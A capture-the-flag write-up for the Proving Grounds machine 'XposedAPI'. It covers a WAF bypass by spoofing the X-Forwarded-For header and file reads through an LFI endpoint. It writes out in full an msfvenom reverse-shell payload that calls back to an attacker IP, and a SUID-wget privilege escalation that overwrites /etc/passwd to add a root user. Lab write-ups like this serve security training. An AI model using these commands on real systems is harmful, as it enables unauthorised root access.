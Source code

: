 ```yaml
---
description: Writeup for XposedAPI from Offensive Security Proving Grounds (PG)
---
```


# XposedAPI

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.134.134 -t full`

`nmapAutomator.sh -H 192.168.134.134 -t vulns`

![](../../.gitbook/assets/525330a99c1c470a98a94b6d134c476b.png)

### Port 13337

![](../../.gitbook/assets/23e9e9de08f54734865735962e7a4323.png)

Seems like a custom-built API.

`/update` API seems interesting.

Generate ELF: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.49.134 LPORT=4242 -f elf > reverse.elf`

It appears we need to either find a valid username, or perform SQL injection.

![](../../.gitbook/assets/dbe35877049f4b5aa6992e377bd03e10.png)

Another interesting endpoint is `/logs`. The WAF denies us access to this host. Likely, the WAF is trying to restrict access to localhost.

![](../../.gitbook/assets/14e256e5e4f64d17b6e0123f87ba812e.png)

### X-Forwarded-For Header

"The X-Forwarded-For \(XFF\) header is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or a load balancer. When traffic is intercepted between clients and servers, server access logs contain the IP address of the proxy or load balancer only. To see the original IP address of the client, the X-Forwarded-For request header is used."

## Exploit

It appears that the WAF is performing a check on the X-Forwarded-For header. This can be easily manipulated on the client side.

![](../../.gitbook/assets/e0f9d6a10bde4648914d8228a2742216.png)

Now, we are told to use `file=/path/to/log/file`. This appears to be a LFI vulnerability.

![](../../.gitbook/assets/d9ecf1b7533e424fb514a557e1ba2562.png)

Here, we get the username `clumsyadmin` \(the only 'human' username\). Now we can make the server download and execute the malicious ELF file we generated earlier using msfvenom.

![](../../.gitbook/assets/a56214e1b7d241a489287f76bf027aa3.png)

Restart the app, and we have a reverse shell.

![](../../.gitbook/assets/8ecae4f1bbd943b4b9fac13e690a2f09.png)

![](../../.gitbook/assets/ba4d1a8bab2f4e1f8822bb3936534422.png)

## Privilege Escalation

We can use LinPEAS to enumerate.

![](../../.gitbook/assets/1d0ec02ef8e84eeeb6580ff1d5ceca98.png)

Very quickly, we can see that the SUID bit is set for `wget`.

Reference: [https://gtfobins.github.io/gtfobins/wget/](https://gtfobins.github.io/gtfobins/wget/)

We can abuse the SUID privileges to write arbitrary files.

After copying the `passwd` file to our attacking machine, add our own root user:

```bash
echo "root2:bWBoOyE1sFaiQ:0:0:root:/root:/bin/bash" >> passwd
```

Note that this hash corresponds to our custom password, `mypass`.

```bash
$ openssl passwd mypass                                                    
bWBoOyE1sFaiQ
```

Then we can overwrite the existing `passwd` file: `wget http://192.168.49.134/passwd -O /etc/passwd`

![](../../.gitbook/assets/a07320d2d3114902b62c13cbe62dc50b.png)

Finally, we can SSH as root2.

![](../../.gitbook/assets/d94647f4a8274a248740ffd23bb067f8.png)

![](../../.gitbook/assets/b1af23d94a0044e5b570f87a99368bc2.png)

